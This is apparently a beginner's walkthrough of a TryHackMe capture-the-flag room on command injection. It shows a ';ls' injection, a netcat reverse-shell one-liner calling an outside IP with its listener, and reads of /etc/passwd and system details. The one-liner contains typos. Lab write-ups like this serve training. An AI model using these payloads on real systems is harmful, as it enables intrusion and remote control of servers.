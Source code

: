 ﻿# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 


#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)
#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 

![error](imgs/eroor.PNG)



but if i enter "root" the page will print a message with success

![suess](imgs/success.PNG)



so now i will try yo inject it with a username and  command "root;ls"

![test1](imgs/test1.PNG)


the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 

![#1i](imgs/#1.PNG)


the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 

to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
refresh the page and check your terminal you can execute the same command down there   
###  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 

maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 

![#1i](imgs/#1.PNG)


### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 

![#2i](imgs/#2.PNG)


will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami

![#3i](imgs/#3.PNG)


the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd

![#4i](imgs/#2.PNG)


### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 

![#5.1](imgs/#5.1.PNG)


but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a

![#5.2](imgs/#5.2.PNG)


### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 

in the end of the file the mention a type of drink 
![#6i](imgs/#6.PNG)


thanks 


